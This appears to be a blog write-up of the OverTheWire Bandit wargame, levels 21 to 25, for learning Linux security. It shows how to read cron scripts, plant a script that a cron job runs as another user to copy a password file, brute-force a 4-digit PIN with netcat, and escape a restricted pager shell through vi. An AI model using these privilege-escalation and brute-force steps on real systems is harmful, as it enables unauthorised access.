 ```yaml
---
layout: post
title:  "OverTheWire Bandit Levels 21-25"
tags: overthewire-bandit
---
```


## Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ ssh bandit22@localhost
bandit22@localhost's password:
```

## Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.**
```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
<PASSWORD>
bandit22@bandit:~$ ssh bandit23@localhost
bandit23@localhost's password:
```

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!**

**NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…**
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp/scottctaylor12
bandit23@bandit:/tmp/scottctaylor12$ touch bandit24-pass.sh
bandit23@bandit:/tmp/scottctaylor12$ chmod 777 bandit24-pass.sh
(WRITE SCRIPT)

bandit23@bandit:/tmp/scottctaylor12$ cat bandit24-pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/scottctaylor12/PASSWORD
chmod 666 /tmp/scottctaylor12/PASSWORD
bandit23@bandit:/tmp/scottctaylor12$ cp bandit24-pass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scottctaylor12$ cat PASSWORD
<PASSWORD>
bandit23@bandit:/tmp/scottctaylor12$ ssh bandit24@localhost
bandit24@localhost's password:
```
## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
bandit24@bandit:~$ cd /tmp/scottctaylor12
bandit24@bandit:/tmp/scottctaylor12$ touch brute-force-25.sh
bandit24@bandit:/tmp/scottctaylor12$ chmod 777 brute-force-25.sh
(EDIT brute-force-25.sh)
bandit24@bandit:/tmp/scottctaylor12$ cat brute-force-25.sh
#!/bin/bash
PASS=$(cat /etc/bandit_pass/bandit24)

for i in {0000..9999}
do
    echo $i
    echo $PASS $i | nc localhost 30002
done

bandit24@bandit:/tmp/scottctaylor12$ ./brute-force-25.sh >> output
(AN HOUR LATER.....)
bandit24@bandit:/tmp/scottctaylor12$ cat output | grep -i -A2 -B2 ^correct
5440
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is <PASSWORD>
bandit24@bandit:/tmp/scottctaylor12$ ssh bandit25@localhost
bandit24@localhost's password:
```

## Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
..
Connection to localhost closed
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
(SHRINK WINDOW TO SHOW 3 LINES)
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```

Continue to OverTheWire Bandit [Levels 26-30](https://scottctaylor12.github.io/otw-bandit26-30.html)
